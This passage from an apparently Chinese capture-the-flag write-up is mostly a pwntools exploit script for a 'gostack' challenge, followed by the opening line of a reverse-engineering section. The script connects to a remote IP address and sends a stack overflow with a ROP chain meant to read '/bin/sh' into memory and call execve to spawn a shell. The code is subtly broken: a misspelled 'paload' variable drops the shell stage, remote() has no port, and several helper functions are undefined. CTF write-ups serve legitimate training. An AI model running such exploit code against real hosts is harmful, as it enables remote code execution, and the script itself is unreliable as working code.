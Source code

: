 ```Python
rl = lambda: p.recvline()
slc = lambda: asm(shellcraft.sh())
uu64 = lambda x: u64(x.ljust(8, b'\0'))
uu32 = lambda x: u32(x.ljust(4, b'\0'))
def log(message_int):
    success(hex(message_int))
def inter():
    p.interactive()
def debug():
    gdb.attach(p)
    pause()
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin\x00'))

#p = process('./gostack')
p = remote('8.147.129.254',)
#gdb.attach(p,'b *(0x08048654)')
#gdb.attach(p,'b *$rebase(0x19E8)')  #'b *$rebase(0x123456)'
#context(arch='amd64', os='linux')
context(log_level='debug',arch='amd64', os='linux')#64位
#context(os='linux', arch='i386', log_level='debug')#32位
#libc=ELF("libc-2.27.so")
#elf = ELF('./attachment-12')

#exp
elf=ELF('./gostack')
bss=0x563950
#gdb.attach(p,'b *0x4A0A28')
syscall_ret=0x4616C9
pop_rdi=0x4a18a5
pop_rsi=0x42138a
pop_rax=0x40f984
pop_rdx=0x4944ec
payload=b'a'+b'\x00'*(0x1c8+0x7)
payload+=p64(pop_rdi)+p64(0)*6+p64(pop_rsi)+p64(bss)+p64(pop_rdx)+p64(0x10)+p64(pop_rax)+p64(0)+p64(syscall_ret)#调用read
paload+=p64(pop_rdi)+p64(bss)+p64(0)*5+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(pop_rax)+p64(59)+p64(syscall_ret)#shell
sla('Input your magic message :',payload)
sl('/bin/sh\x00')
p.interactive()
```

# Reverse

### 1.asm_re

获取一段txt的asm代码 可以查看到数据段为
